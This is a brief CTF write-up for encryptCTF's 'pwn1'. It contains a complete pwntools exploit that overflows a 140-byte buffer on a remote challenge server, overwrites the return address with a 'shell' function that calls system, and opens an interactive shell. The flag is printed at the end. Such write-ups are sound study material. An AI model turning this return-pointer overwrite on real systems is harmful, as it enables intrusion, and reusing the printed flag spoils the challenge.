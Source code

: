 # pwn1

This challenge was almost exactly the same as ```pwn0``` apart from a larger buffer and a different function to jump to.


We started by finding the vuln buffer size:
```
1094806849 found at offset: 140
```

With inspection of the code a fabricated method called ```shell``` has been provided. This will be the address we will overwrite the return pointer with.
```
Dump of assembler code for function shell:
   0x080484ad <+0>:	push   ebp
   0x080484ae <+1>:	mov    ebp,esp
   0x080484b0 <+3>:	sub    esp,0x18
   0x080484b3 <+6>:	mov    DWORD PTR [esp],0x80485c0
   0x080484ba <+13>:	call   0x8048370 <system@plt>
   0x080484bf <+18>:	leave  
   0x080484c0 <+19>:	ret    
End of assembler dump.
```

By once again putting these bits of information together we can generate an exploit.

```python
from pwn import *

r = remote('104.154.106.182', 2345)

# Payload creation
junk = b'A' * 140
shell_addr = p32(0x080484ad)

payload = junk + shell_addr

r.recvuntil("name: ")
r.sendline(payload)
r.interactive()
```

```
FLAG: encryptCTF{Buff3R_0v3rfl0W5_4r3_345Y}
```